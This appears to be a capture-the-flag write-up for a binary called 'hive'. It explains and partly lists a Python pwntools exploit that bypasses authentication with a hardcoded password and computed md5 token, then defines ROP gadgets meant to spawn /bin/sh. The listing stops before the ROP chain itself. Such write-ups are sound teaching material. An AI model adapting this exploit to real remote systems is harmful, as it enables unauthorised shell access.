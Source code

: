 
## Solution

The solution is automated in python and uses the [pwntools](http://pwntools.readthedocs.org/en/latest/intro.html) library for simplicity. Testing for a solution was done via attaching to a process in gdb as shown on lines 29-32. However, a remote exploit would work just as easily by changing the process in line 28 to a ```remote(ipAddr, port)``` combination. It's important to note that all address values passed to the vulnerable program must be 8 bytes in size and little endian in order to be interpreted properly by the program itself. I set about doing this in the easiest way - the p64() method from pwntools.

Lines 21-26 Handle the transformation of the authentication token. All gadgets used from the binary are defined in a dictionary from lines 11-19. Finally, the ROP chain is built beginning at line 45 and ending with a ```interactive()``` method calling to establish a two-way pipe for communication.

----

# Proof of Exploit/Solution

```python
#!/usr/bin/python

from pwn import *

context.log_level = 'info'

#Update this rop list as needed in order to get shell
#Gadgets cannot contain whitespace character such as:
#"Space" - /x20; "Line Feed" - /x0a; "Form Feed" - x0c;
#"Carriage Return" - /x0d; "Tab" - /x09
rop_list = {
"syscall":  0x447f31,       # syscall
"poprdi":   0x4033cb,       # pop rdi; ret
"pop2ret":  0x43df49,       # pop rdx; pop rsi ; ret
"poprax":   0x43c6ad,       # pop rax; ret
"movrdi":   0x47f3dd,       # mov [rdi], rax ; mov eax, 1 ; ret
"data":     0x6c2dc0,       # bss section - gives a workspace
"binsh":    "/bin/sh\x00"   # need to get shell!
}

def TimeToken(arg):
    log.info("Building Token" +
            "\n\tOriginal Value is:    " + str(arg) +
            "\n\tCalculated Token is:  " + str(arg/(arg%30)+1) +
            "\n\tmd5 hash is:          " + md5sumhex(str(arg/(arg%30)+1)))
    return md5sumhex(str(arg/(arg%30)+1))

c = process('./hive')
#gdb.attach(c, """
#            b evilTaunt
#            c
#            """)

log.info("Handling authentication" +
        "\n\tUsername is: \"\"" +
        "\n\tPassword is: 5up3rm@n")
c.sendline("")
c.sendline("5up3rm@n")
t = int(c.recvuntil(", please", drop=True).split()[3])
c.sendline(str(TimeToken(t)))

log.info("Moving into secret menu.")
c.sendline("3")

```